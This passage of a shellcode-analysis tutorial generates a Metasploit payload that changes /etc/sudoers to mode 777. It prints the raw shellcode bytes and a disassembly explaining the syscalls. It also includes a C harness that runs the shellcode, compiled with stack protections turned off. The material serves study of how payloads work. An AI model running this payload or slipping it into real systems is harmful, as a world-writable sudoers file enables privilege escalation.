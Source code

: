 ```
dipsy@kali:~$ msfvenom -p linux/x86/chmod FILE=/etc/sudoers MODE=777 -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 37 bytes
Final size of c file: 181 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x75\x64\x6f\x65\x72\x73\x00\x5b\x68\xff\x01\x00\x00\x59"
"\xcd\x80\x6a\x01\x58\xcd\x80";
``` 
To dissect the shell-code we can use ndisasm, where -u means operating in 32-bit mode. Note that there are two syscalls, 0xf and 0x1. Each of which is going to be analyzed separately in the debugging part ★. 
``` 
dipsy@ubuntu:~$ echo -ne "\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x75\x64\x6f\x65\x72\x73\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"| ndisasm -u -
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80D000000        call dword 0x17
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7375              jnc 0x86
00000011  646F              fs outsd
00000013  657273            gs jc 0x89
00000016  005B68            add [ebx+0x68],bl
00000019  FF01              inc dword [ecx]
0000001B  0000              add [eax],al
0000001D  59                pop ecx
0000001E  CD80              int 0x80
00000020  6A01              push byte +0x1
00000022  58                pop eax
00000023  CD80              int 0x80
``` 
Lets prepare our skeleton to run our shell-code.
``` 
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x75\x64\x6f\x65\x72\x73\x00\x5b\x68\xff\x01\x00\x00\x59"
"\xcd\x80\x6a\x01\x58\xcd\x80";
int main(){
printf("Shellcode Length:  %d\n", strlen(shellcode));
int (*ret)() = (int(*)())shellcode;
ret();
return 0;
}
``` 
Compile it:
``` 
dipsy@ubuntu:~$ gcc chmod.c -o chmod -z execstack -fno-stack-protector
``` 

